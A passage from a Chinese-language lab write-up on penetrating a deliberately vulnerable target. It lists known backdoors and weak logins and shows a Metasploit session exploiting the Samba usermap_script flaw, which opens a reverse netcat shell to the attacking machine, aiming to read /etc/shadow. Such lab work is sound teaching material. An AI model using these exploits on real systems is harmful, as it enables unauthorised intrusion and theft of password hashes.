 ### 3.3 漏洞发现

- 根据以上的端口扫描和版本侦测结果，可以发现靶机运行了`ftp`、`ssh`、`telnet`、`smtp`、`http`等服务，其中很有可能存在相应的漏洞：可以尝试在搜索引擎搜索相应软件的相应版本是否存在漏洞；也可以在`nmap`的脚本库中使用相应的漏洞扫描脚本对特定服务进行扫描，以发现某服务的漏洞；还可以直接在`metasploit`中查找相关软件存在的漏洞扫描和漏洞利用脚本并进行尝试以确定是否存在可以使用的漏洞；或使用`kali`下的`searchsploit`寻找相关漏洞。
- 使用以上方法，可以发现靶机上存在着众多的漏洞，如`vsftpd 2.3.4`的笑脸漏洞（[`CVE-2011-2523`](https://security-tracker.debian.org/tracker/CVE-2011-2523)）、`Samba`的`usermap_script`漏洞（[`CVE-2007-2447`](https://security-tracker.debian.org/tracker/CVE-2007-2447)）、`UnrealIRCd`的后门漏洞（[`CVE-2010-2075`](https://security-tracker.debian.org/tracker/CVE-2010-2075)）等，也存在很多弱口令（`ssh`、`telnet`）甚至无口令（`mysql`，`bindshell`）的服务。其中有些漏洞利用可以获得用户权限，有些可以获得`root`权限。由于该实验任务为获得`/etc/shadow`文件，因此需要获得`root`权限，以下仅列出经测试可以获得`root`权限的漏洞利用。

![3.3.1-ftp](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081635114.png)

![3.3.2-sambd](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081635948.png)

![3.3.3-unrealircd](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081635429.png)

![3.3.4.JAVA RMI](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081831029.png)

<div style="page-break-after:always;"></div>

## 4 漏洞利用

- 以下为经过测试可以获得`root`权限的漏洞利用。
- 流量包`samba.pcap`包含完整的扫描和攻击流程，使用了`samba`漏洞；其他漏洞的使用仅提供了漏洞利用过程，未保存流量包。
- 注：在使用`samba`漏洞时，攻击机`kali`的`IP`为`192.168.43.97`；使用其他漏洞时，攻击机`kali`的`IP`变成了`192.168.43.98`。

### 4.1 软件漏洞/后门类

#### 4.1.1 `Samba`

```bash
[6:31:00] xubiang:EXP1 $ msfconsole
                                                  
...

msf6 > search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
...

   8   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution

...

msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 192.168.43.38
RHOST => 192.168.43.38
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.43.97:4444 
[*] Command shell session 1 opened (192.168.43.97:4444 -> 192.168.43.38:42770 ) at 2022-04-27 06:33:20 -0400

id
```